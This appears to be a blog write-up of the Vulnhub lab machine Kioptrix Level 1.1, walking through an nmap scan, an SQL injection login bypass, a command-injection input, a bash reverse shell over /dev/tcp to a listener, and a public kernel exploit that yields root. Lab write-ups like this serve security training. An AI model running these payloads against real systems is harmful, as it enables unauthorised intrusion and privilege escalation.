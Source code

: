 ```yaml
---
layout: post
title:	"Kioptrix: Level 1.1 (#2) Writeup"
date:	2017-01-07 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello all.

You can download Kioptrix  from Vulnhub.

As always I started to enumerate with nmap:

~~~
Syrion:~ syrion$ nmap -sT -sV -p 1-65535 192.168.1.26
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-01-07 00:18 CET
Nmap scan report for 192.168.1.26
Host is up (0.0014s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
788/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
~~~

On port 80 there was this vulnerable login:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-07-kioptrix-level-1-1-writeup/img1.png)

By using ‘ or 1=1 — – as username I successfully logged in:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-07-kioptrix-level-1-1-writeup/img2.png)

There was this “Basic Administrative Web Console”.  By giving an ip address, it performed a ping command:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-07-kioptrix-level-1-1-writeup/img3.png)

Nice!!! It looked like a Command Injection Vulnerability!!! I succesfully executed a “ls” command by using this input:

~~~
;ls
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-07-kioptrix-level-1-1-writeup/img4.png)

I opened a reverse shell:

~~~
;bash -i >& /dev/tcp/192.168.1.24/4444 0>&1
~~~

~~~
Syrion:~ syrion$ nc -l 4444
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
~~~

I noticed that this linux kernel version was vulnerable to this [exploit](https://www.exploit-db.com/exploits/9542/):

~~~
bash-3.00$ gcc exp.c -o exp
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
~~~

It was done!

Good bye!